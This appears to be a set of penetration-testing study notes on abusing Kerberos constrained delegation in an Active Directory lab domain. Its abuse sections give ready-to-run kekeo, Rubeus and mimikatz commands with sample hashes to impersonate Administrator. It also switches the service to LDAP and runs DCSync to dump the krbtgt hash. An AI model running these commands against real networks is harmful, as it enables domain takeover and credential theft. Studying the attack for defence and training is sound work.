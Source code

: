 # Constrained Delegation
Microsoft launched constrained delegation where a user tries to authenticate to a service(ex: web service) without using kerberose example form based authentication. In unconstrained delegation if a user is internal member they request their tgt request ST for web service provides TGT and ST to web service server the web service server then uses the provided TGT to request ST for database server to display the specific dynamic content to that user but every user may not be a domain joined user so microsoft launched constrained delegation. The main purpose of constrained delegation is to enable a trusted service to access specific resources on behalf of a user, without granting it excessive permissions unlike Unconstrained delegation which allows a service to impersonate a user and delegate their credentials to any other service without any restrictions. This means that the service has full control over the delegated credentials and can access any resource on behalf of the user but in constrained delegation allows access only to specified services on specified computers as a user. 

- A user alex authenticates to web service(running with service account websvc) using form based authentication.
- The web service requests ticket for alex's account from authentication server itself(in this step in unconstrained delegation the user object would themselves ask for TGT and ask ST for web service themselves from the DC)
- The KDC checks the websvc userAccountControl value for the TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION attribute, and that alex's account is not blocked for delegation. If OK it returns a forwardable ticket for Joe's account (S4U2Self).
- The service then passes this ticket back to the ticket granting server itself and requests a service ticket for the CIFS/dcorp-mssql.dollarcorp.moneycorp.local service.
- The KDC checks the msDS-AllowedToDelegateTofield on the websvcaccount. If the service is listed it will return a service ticket for dcorp-mssql(S4U2Proxy).
- The web service can now authenticate to the CIFS on dcorp-mssql as alex using the supplied TGS.

# Problem with this architecture

## Problem 1
Here, the user who authenticated to the web server can be any user since it is sole responsibility of web service server to request TGT for a user, request ST for other services on behalf of that user, etc If user alex authenticated to the web server the websvc can request ST on behalf of administrator user as well, Meaning if we compromise websvc user or server with constrained delegation enabled on it we can access any services listed as msDS-AllowedToDelegateTofield as any user(ex: domain admin)

### Enumerate users and computers with constrained delegation enabled
Here users means service accounts like websvc not normal domain users.

#### Using POwerView
```
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```

#### Using ADModule
```
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

##### How to read the output?
See properties samaccountname, useraccesscontrol and msds-allowedtodelegateto properties and read like as an attackr if i compromise samaccountname(websvc) user i am able to access CIFS/dcorp-mssql.dollarcorp.moneycorp.local(msds-allowedtodelegateto) as any user.

# Abuse
- After getting hash of the service account which has constrained delegation allowed to certain service
- Use over pass the hash to open elevated shell as that user then...

##### Using kekeo
- Using asktgt from kekeo above step 2 and 3
```
kekeo# tgt::ask /user:websvc /domain:dollarcorp.moneycorp.local /rc4:cc098f204c5887eaa8253e7c2749156f
```
- Using s4u from Kekeo, we request a TGS
```
tgs::s4u /tgt:TGT_websvc@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:cifs/dcorp-mssql.dollarcorp.moneycorp.LOCAL
```
- Using mimikatz inject the ticket
```
Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_cifs~dcorp-mssql.dollarcorp.moneycorp.LOCAL@DOLLARCORP.MONEYCORP.LOCAL.kirbi"'
```
- Access it
```
ls \\dcorp-mssql.dollarcorp.moneycorp.local\c$
```

##### Abusing using rubeus
Here, we are requesting a TGT and TGS in a single command.
```
Rubeus.exe s4u /user:websvc /aes256:2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7 /impersonateuser:Administrator /msdsspn:CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL /ptt
```
```
ls \\dcorp-mssql.dollarcorp.moneycorp.local\c$ 
```

## Problem 2(major problem)
Another interesting issue in Kerberos is that the delegation occurs not only for the specified service but for any service running under the same account. There is no validation for the SPN specified meaning you can access multiple services on that single machine not only the specified service in msds-allowedtodelegateto attribute.

### Abuse
- Frst get the domain computers where constrained delegation is enabled by ```Get-DomainComputer -TrustedToAuth```
- Get the hash of this machine after this suppose it has msds-allowedtodelegateto TIME/dcorp-dc.dollarcorp.moneycorp.LOCAL using rubeus pass altservice parameter.

```
Rubeus.exe s4u /user:dcorp-adminsrv$ /aes256:db7bd8e34fada016eb0e292816040a1bf4eeb25cd3843e041d0278d30dc1b445 /impersonateuser:Administrator /msdsspn:time/dcorp-dc.dollarcorp.moneycorp.LOCAL /altservice:ldap /ptt
```
- After injection, we can run DCSync:
```
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync/user:dcorp\krbtgt" "exit" 
```

